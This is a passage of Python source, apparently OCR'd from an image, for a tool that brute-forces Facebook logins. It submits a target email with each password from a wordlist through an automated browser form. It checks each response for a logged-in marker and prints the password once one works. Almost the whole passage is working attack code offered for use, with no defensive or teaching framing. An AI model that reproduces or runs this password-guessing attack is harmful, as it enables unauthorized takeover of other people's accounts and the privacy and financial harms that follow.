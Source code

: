             exit(1)
          passwd = passwd.strip()
          try:
            print(wi+"["+yl+"~"+wi+"] Trying Single Password[ {"+yl+str(passwd)+wi+"} ]")
            br.open("https://facebook.com")
            br.select_form(nr=0)
            br.form["email"]=username
            br.form["pass"]=passwd
            br.method="POST"
            if br.submit().get_data().__contains__('home_icon'):
              issuccess = 1
              print(wi+"==> Login"+gr+" Success\n")
              print(wi+"========================="+"="*len(passwd)+"======")
              print(wi+"["+gr+"+"+wi+"] Password [ "+gr+passwd+wi+" ]"+gr+" Is Correct :)")
              print(wi+"========================="+"="*len(passwd)+"======")
            else : print(yl+"==> Login"+rd+" Failed\n")
          except(KeyboardInterrupt,EOFError):
            print(rd+"\n["+yl+"!"+rd+"]"+yl+" Aborting"+rd+"..."+wi)
            time.sleep(1.5)
            issuccess = 2
          except Exception as e:
            issuccess = 2
            print(rd+"\n["+yl+"!"+rd+"] Error: "+yl+str(e)+wi)
            time.sleep(0.60)
 
          if issuccess==0:
            print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"The Password[ "+yl+passwd+wi+" ] Is Not Correct"+rd+":("+yl+"!"+wi)
            print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Other password or Wordlist File "+gr+":)"+wi)          
          exit(1)
    with open(wordlist) as wfile:
      for passwd in wfile:
        if not passwd.strip() or len(passwd.strip()) < 6: continue
        passwd = passwd.strip()
        try:
          print(wi+"["+yl+str(loop)+wi+"] Trying Password[ {"+yl+str(passwd)+wi+"} ]")
          br.open("https://facebook.com")
          br.select_form(nr=0)
          br.form["email"]=username
          br.form["pass"]=passwd
          br.method="POST"
          if br.submit().get_data().__contains__('home_icon'):
            issuccess = 1
            print(wi+"==> Login"+gr+" Success\n")
            print(wi+"========================="+"="*len(passwd))
            print(wi+"["+gr+"+"+wi+"] Password "+gr+"Found:"+wi+">>>>[ "+gr+"{}".format(passwd))
            print(wi+"========================="+"="*len(passwd))
            break
          else : print(yl+"==> Login"+rd+" Failed\n")
          loop+=1
        except (KeyboardInterrupt,EOFError):
          print(rd+"\n["+yl+"!"+rd+"]"+yl+" Aborting"+rd+"..."+wi)
          time.sleep(1.5)
          exit(1)
        except Exception as e:
          print(rd+"["+yl+"!"+rd+"] Error: "+yl+str(e)+wi)
          time.sleep(0.60)
 